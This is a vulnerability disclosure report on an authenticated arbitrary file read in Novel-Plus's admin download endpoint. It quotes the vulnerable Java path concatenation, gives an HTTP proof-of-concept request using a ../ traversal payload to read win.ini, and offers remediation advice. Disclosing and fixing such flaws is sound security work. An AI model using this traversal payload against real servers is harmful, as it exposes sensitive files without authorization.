 ## Vulnerability Submitter

##### Name:   邓俊锋

## Arbitrary File Read Vulnerability Exists in Novel-Plus v5.1.0 and Earlier Version

**Vulnerability Impact Scope**

`novel-plus < v5.1.0`

**official website**

 https://novel.xxyopen.com/index.htm

**github**

https://github.com/201206030/novel-plus

### Vulnerability Overview

Directory traversal vulnerability is a common web security flaw that allows attackers to access unauthorized files or directories on a server through specially crafted URL paths. This vulnerability typically arises due to insufficient validation of user input by the web application, enabling attackers to construct specific URL paths to access sensitive files on the server.

### JavaWeb code auditing process

**Source file:** 

`novel-admin\src\main\java\com\java2nb\common\controller\FileController.java,lines179-197.`

![image-20250402224625364](./img/1.png)This code has a path traversal vulnerability for the following reasons:

1. **Unvalidated user-controllable parameter**:
- The `filePath` parameter is user-controlled, and the code does not perform any validation or filtering on it.
- An attacker can craft malicious `filePath` values (e.g., `../../etc/passwd`) to access sensitive files on the server, potentially leading to unauthorized data exposure.
2. **Path concatenation issue**:
- The code directly concatenates the user-input `filePath` with the upload path:
```java
String realFilePath = jnConfig.getUploadPath() + filePath;
```
- If `filePath` contains path traversal characters (e.g., `../`), it can bypass the intended upload directory restrictions and access arbitrary directories on the server.
3. **No restrictions on file access scope**:

- The code lacks restrictions on file access scope, allowing an attacker to exploit the path traversal vulnerability and access arbitrary files on the server.

### Vulnerability reproduction

**Vulnerability Route:** `/common/sysFile/download`

**Vulnerable Parameter:** `filePath`

1. Log in using the admin account to obtain the session cookie (which grants administrator privileges)

![image-20250219195734596](./img/2.png)

2.Subsequent testing demonstrates that a directory traversal attack successfully retrieved sensitive data from the `Windows/win.in` file.

![](./img/3.png)

**POC**

```HTTP
GET /common/sysFile/download?filePath=../../../../Windows/win.ini&fileName=test.txt HTTP/1.1 
Host: 192.168.200.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.200.1/main
Cookie: JSESSIONID=a3d5047e-3a4f-4454-8ba1-00053268b01a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
```

### **Vulnerability Remediation Recommendations**

1. **Strictly Validate User Input:**

   Conduct legitimacy checks on user-provided file names and path parameters. Filter out path traversal sequences such as ../, ..\, and URL-encoded forms (e.g., %2e%2e%2f).

2. **Use a whitelist mechanism:** 

   allow only specific character sets (such as letters, numbers, underscores) or file extensions (such as .jpg, .pdf).
